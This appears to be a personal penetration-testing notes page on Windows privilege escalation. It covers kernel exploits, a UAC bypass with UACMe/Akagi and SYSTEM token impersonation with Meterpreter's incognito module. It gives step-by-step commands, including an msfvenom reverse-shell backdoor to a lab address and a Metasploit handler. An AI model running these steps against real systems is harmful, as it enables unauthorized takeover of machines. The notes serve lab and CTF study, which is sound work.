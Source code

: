 
<h3>Windows Kernel Exploit</h3>
>Windows Kernel is the kernel that comes pre-packaged with all versions of microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy

Look for windows boxes that has the kernel exploit vuln(**Devel**)

one of the basic command to escalate priv esc on a windows is ```getsystem```, this would go through a plethora of techniques, but it can also fail actually


>Check out the  Devel Box Writeup, it's more of kernel exploit stuff.

Link to Devel Writeup: https://github.com/BlackAnon22/BlackAnon22.github.io/blob/main/posts/hackthebox/devel.md




<h4>Bypassing UAC with UACMe</h4>

UAC(User Account Control), has been present in all of windows from windows vista to windows 11. 

This is to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group

UACMe is an open source tool that can be used to bypass Windows UAC by leveraging various techniques

You can get it [here](https://github.com/hfiref0x/UACME)

To search for a running process
```
pgrep explorer
```
To migrate to that process, this provides a 64 bit meterpreter session
```
migrate 2223
```
To check if the user has elevated privileges
```
getprivs
```
To check users
```
net user
```
To check if the users are in the local administrators group
```
net localgroup administrators
```

>The version of Akagi you'll use depends on the version of windows you are running

To run akagi

Create a backdoor.exe using msfvenom
```
msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -o backdoor.exe
```
Then set up the multi handler on metasploit
```
use exploit/multi/handler
set LHOST
set LPORT
run
```

Now, on the previous meterpreter shell you got, create a TEMP directory and upload the 2 files
```
upload backdoor.exe
upload Akagi64.exe
```
Making use of key "23", which essentially takes advantage of package manager on windows
```
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```
Running this bypasses UAC, then backdoor.exe should be executed with admin privileges
`
You should get a metterpreter shell, checking the privileges again
```
getprivs
```
You'll see the user has elevated privileges
Listing out processes
```
ps
```
With this you can migrate to a process with "NT Authority\System"
```
migrate PID
```
With this you would get a meterpreter shell as "NT Authority System"


>For windows 10, you can use key 33. Check out the documentation of the tool to read more about it

>In order to elevate privileges by bypassing uac, you will need access to a user that is a member of the local administrators group




<h4>Access Token Impersonation</h4>

>SeAssignPrimaryToken: This allows  a user to impersonate tokens

>SeCreateToken: This allows a user to create an arbitrary token with administrative privileges

>SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges

Using the "Incognito Module", this is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens successfully after exploitation. We can use this to display a list of token we can impersonate


To migrate to a 64bit meterpreter after getting your meterpreter session, you can migrate to explorer
```
pgrep explorer
migrate 2222
```
if "SeImpersonatePrivilege" is present, you can load incognito module on your meterpreter
```
load incognito
```
To list tokens, (you should see delegation tokens and impersonation tokens)
```
list_tokens -u
```
To impersonate token
```
impersonate_token "name of the token"
```
to check if it worked
```
getuid
```
So you can check the tokens again
```
list_tokens -u
```
If there's one for "NT Authority System", you can go ahead and impersonate it
```
impersonate_token "name of the token"
```

>If there's ever a scenario where the delegation or impersonation token isn't available, then you can go ahead with the potato attack

